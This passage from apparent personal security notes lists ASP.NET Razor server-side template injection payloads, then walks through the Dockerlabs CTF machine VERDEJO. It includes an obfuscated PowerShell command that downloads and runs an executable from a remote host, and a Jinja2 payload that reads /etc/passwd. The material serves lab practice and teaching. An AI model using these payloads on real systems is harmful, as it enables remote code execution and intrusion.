 - `@( //C#Code )`
    
- `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
    
- `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`
    

The .NET `System.Diagnostics.Process.Start` method can be used to start any process on the server and thus create a webshell. You can find a vulnerable webapp example in [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**More information**

- [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
    
- [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)
    

# CTF

We will be using Dockerlabs machine VERDEJO: https://mega.nz/file/ZasAgTpa#czwKDizDR0-eHGyzP8OG1VCj2od-Xzq0DWbFsTVXFWw
## Enumeration

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916181317.png)
Port 80 http service does not have anything interesting within it, but 8089 does, when we go in we find this:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916181531.png)
If we try XSS on that we get this:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916181615.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916181626.png)
This page is vulnerable to XSS and also to SSTI, we know that by trying following payload:
`{{5*5}}`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916181817.png)

## EXPLOITATION


After testing some payloads, we could use this:

`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}`
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916182013.png)
